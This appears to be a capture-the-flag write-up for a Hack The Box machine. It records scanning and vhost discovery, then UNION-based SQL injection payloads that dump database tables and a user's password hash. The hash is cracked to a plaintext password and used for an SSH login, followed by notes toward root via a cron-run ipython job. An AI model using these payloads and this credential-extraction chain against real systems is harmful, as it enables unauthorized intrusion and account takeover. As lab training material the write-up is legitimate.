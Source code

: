 ```console
└──╼ [★]$ nmap -A -p- -T4 -Pn 10.129.56.68
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 22:04 BST
Nmap scan report for 10.129.56.68
Host is up (0.0038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
|   256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
|_  256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to http://shared.htb
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://shared.htb
| tls-nextprotoneg: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after:  2042-03-15T13:37:14
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 305.76 seconds
```

```console
└──╼ [★]$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u shared.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shared.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/09/16 22:38:25 Starting gobuster in VHOST enumeration mode
===============================================================
Found: checkout.shared.htb (Status: 200) [Size: 3229]
```


https://book.hacktricks.xyz/pentesting-web/sql-injection
https://www.noobsec.net/sqli-cheatsheet/

```{"-1' union select 'a','b','c'-- -":"1"}```


![image](https://user-images.githubusercontent.com/105310322/191117377-68dcc174-e7a8-45fe-8d34-27a4c6588a7a.png)

```{"-1' union select 'a',@@version,'c'-- -":"1"}```

![image](https://user-images.githubusercontent.com/105310322/191123194-bc0ac72e-e5b6-4c7c-9529-d701b72af3ed.png)

```{"-1' union select 'a',(select group_concat(table_name) FROM information_schema.tables),'c'-- -":"1"}```

```ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_SYS_DATAFILES,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,INNODB_BUFFER_PAGE,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_LOCK_WAITS,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_FT_CONFIG,USER_STATISTICS,INNODB_SYS_TABLESPACES,INNODB_SYS_VIRTUAL,INNODB_SYS_INDEXES,INNODB_SYS_SEMAPHORE_WAITS,INNODB_MUTEXES,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_FT_DELETED,THREAD_POOL_STATS,user,product```


```{"-1' union select 'a',(select group_concat(column_name) FROM information_schema.columns),'c'-- -":"1"}```

Alot of info is outputted but at the bottom shows these.

```id,username,password,id,code,price```

```{"-1' union select 'a',(select group_concat(username,password) FROM user),'c'-- -":"1"}```

```james_masonfc895d4eddc2fc12f995e18c865cf273```

Now we have a username and if we use hash crack we get a password Soleil101

User= james_mason

fc895d4eddc2fc12f995e18c865cf273 = Soleil101

```console
└──╼ [★]$ ssh james_mason@shared.htb
james_mason@shared.htb's password: 
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 16 18:43:35 2022 from 10.10.14.6
```


╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847

Running ipython

```console
2022/09/19 18:42:54 CMD: UID=1000 PID=16733  | 
2022/09/19 18:43:00 CMD: UID=1000 PID=16734  | -bash 
2022/09/19 18:43:01 CMD: UID=0    PID=16736  | /usr/sbin/CRON -f 
2022/09/19 18:43:01 CMD: UID=0    PID=16735  | /usr/sbin/CRON -f 
2022/09/19 18:43:01 CMD: UID=1001 PID=16737  | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2022/09/19 18:43:01 CMD: UID=1001 PID=16738  | /usr/bin/pkill ipython 
2022/09/19 18:43:01 CMD: UID=0    PID=16740  | /usr/sbin/CRON -f 
2022/09/19 18:43:01 CMD: UID=1001 PID=16739  | /usr/bin/python3 /usr/local/bin/ipython 
2022/09/19 18:43:01 CMD: UID=0    PID=16741  | /bin/sh -c /root/c.sh 
2022/09/19 18:43:01 CMD: UID=0    PID=16742  | sleep 5 
2022/09/19 18:43:06 CMD: UID=0    PID=16744  | 
2022/09/19 18:43:06 CMD: UID=0    PID=16746  | /bin/bash /root/c.sh 
2022/09/19 18:43:06 CMD: UID=0    PID=16745  | /bin/bash /root/c.sh 
2022/09/19 18:43:06 CMD: UID=0    PID=16747  | perl -ne s/\((\d+)\)/print " $1"/ge 
2022/09/19 18:43:06 CMD: UID=0    PID=16748  | /bin/bash /root/c.sh 
2022/09/19 18:43:06 CMD: UID=0    PID=16749  | 
2022/09/19 18:43:06 CMD: UID=0    PID=16752  | 
2022/09/19 18:43:06 CMD: UID=0    PID=16753  | (s-server) 
```

https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7

